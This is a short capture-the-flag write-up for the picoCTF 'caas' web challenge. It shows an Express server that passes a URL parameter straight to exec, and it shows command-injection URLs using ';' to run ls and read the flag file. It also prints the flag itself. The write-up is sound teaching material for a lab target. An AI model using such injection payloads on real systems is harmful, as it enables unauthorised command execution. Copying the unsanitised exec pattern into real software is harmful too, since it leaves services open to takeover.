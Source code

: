 # Web - caas
## Writeup Author: kebabulon

---

### Task
Now presenting cowsay as a service

https://caas.mars.picoctf.net/

![caas site](./assets/images/caas_1.png)

Attached files:
```
-- index.js
```

**index.js**:
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

---

### Solution

This is a simple RCE.  
The message at the end of the url is appended to ```/usr/games/cowsay``` and executed as a bash script  
To break out of the message, we can just append ```;``` and whatever command we want:

```
https://caas.mars.picoctf.net/cowsay/hello; ls
```

![caas site](./assets/images/caas_2.png)

```
https://caas.mars.picoctf.net/cowsay/hello; cat falg.txt
```

![caas site](./assets/images/caas_3.png)

---

### Flag

```
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```